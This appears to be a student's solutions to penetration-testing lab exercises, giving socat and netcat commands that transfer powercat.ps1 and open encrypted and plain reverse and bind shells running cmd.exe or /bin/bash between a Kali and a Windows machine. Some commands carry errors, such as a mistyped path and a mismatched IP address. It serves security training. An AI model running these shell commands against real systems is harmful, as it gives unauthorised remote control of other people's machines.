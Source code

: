 

###### 4.2.4.1.1
Use socat to transfer powercat.ps1 from your Kali machine to your Windows system. Keep the file on your system for use in the next section.  
  
  
Linux - Send file:
```bash
sudo socat TCP4-LISTEN:443,fork file:/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1
```

Windows - Recieve file:  
```powershell
socat TCP4:192.168.119.166:443 file:powercat.ps1,create
```



###### 4.2.4.1.2
Use socat to create an encrypted reverse shell from your Windows system to your Kali machine.  
  
Linux - Create self-signed SSL cert & Send to Windows:  
```bash
mkdir ~/Documents/Exercises/4.2.4.1 && cd ~/Documents/Exersices/4.2.4.1  
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt  
cat bind_shell.key bind_shell.crt > bind_shell.pem  
sudo socat TCP4-LISTEN:443,fork file:bind_shell.pem
```

Windows - Recieve .pem:  
```powershell
socat TCP4:198.162.119.166:443 file:bind_shell.pem,create
```


**Reverse shell:**  
  
Windows - Create encrypted reverse shell:  
```powershell
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 EXEC:'cmd.exe',pipes
```

Linux - Connect to reverse shell:  
```bash
socat - OPENSSL:192.168.166.10:443,verify=0
```


**Bind shell:**  
  
Linux - Establish encrypted bind listener:  
```bash
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

Windows - Establish encrypted bind shell:  
```powershell
socat - OPENSSL:192.168.119.166:443,verify=0
```

  
  
###### 4.2.4.1.3 
Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work? **- No**  
  
Windows - Establish encrypted listener:  
```powershell
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 EXEC:'cmd.exe',pipes
```

Linux - Attempt non-secure connection:  
```bash
socat - TCP4:192.168.166.10:443
```

  
  
  
  
4. Make an unencrypted socat bind shell on your Windows system. Connect to the shell using Netcat. Does it work? **- Yes**  
  
Windows - Create socat listener on 443:  

socat -d -d TCP4-LISTEN:443 EXEC:'cmd.exe',pipes

  
  
  
Linux - Attempt nc connection:  

nc 192.168.166.10 443
